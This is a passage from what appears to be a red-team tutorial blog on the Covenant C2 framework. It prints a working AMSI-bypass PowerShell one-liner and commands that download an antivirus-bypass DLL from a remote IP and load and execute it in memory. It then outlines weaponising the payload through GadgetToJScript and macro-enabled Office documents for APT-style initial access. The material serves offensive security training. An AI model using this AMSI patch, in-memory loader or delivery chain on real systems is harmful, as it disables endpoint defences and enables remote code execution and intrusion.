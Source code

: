 And note your new powershell __Grunt__ checking in on __Covenant__.



<p align="center">
  <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov4.JPG">
</p>





On the other hand we can keep our stager entirely in memory by downloading the DLL reflectively from a remote location as follow below:

```powershell 
# Patch Amsi
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS > $dll = (new-object net.webclient).DownloadData("http://192.168.152.100:1234/monk-Avbypass.dll)
PS > [System.Reflection.Assembly]::Load($dll)
PS > [MonkStager.MonkStager]::Execute()
```

The usage of DLL execution can be particulary useful when dealing with __AppLocker__ bypass as it is common occurrence that the DLL __AppLocker__ rules are not enabled or enforced 🚩. 
However we are not going to dig further around this topic, or at least not for now. 

### 4) Initial delivery 

We can try to simulate a campaign conducted by foreign APT adversaries. We will try to leverage the amazing [GadgetToJScript:](https://github.com/med0x2e/GadgetToJScript) project to weaponize our custom .NET assembly.
Our DLL is not perfect, but it works. However, it's quite hard to deliver one to a target user since no default actions are associated with that file type (double clicking it doesn't do much!). 
Not to mention that most corporate web proxies and mail filters block the DLL file type regardless of being malicious or benign! 
What is needed is an additional component that will write our DLL on disk and then load it to trigger the execution. 
HTA format can be used to facilitate this scenario, but the same concept could be applied with other languages such as VBS and VBA, commonly used for initial enterprise access. This is still the first attack vector used by APT to attack enterprise considering the wide deployment of the Windows office suite.
For this reason we will implement a malicious office with macro enabled. For this simulation we are going to use a simple MessageBox as our payload.
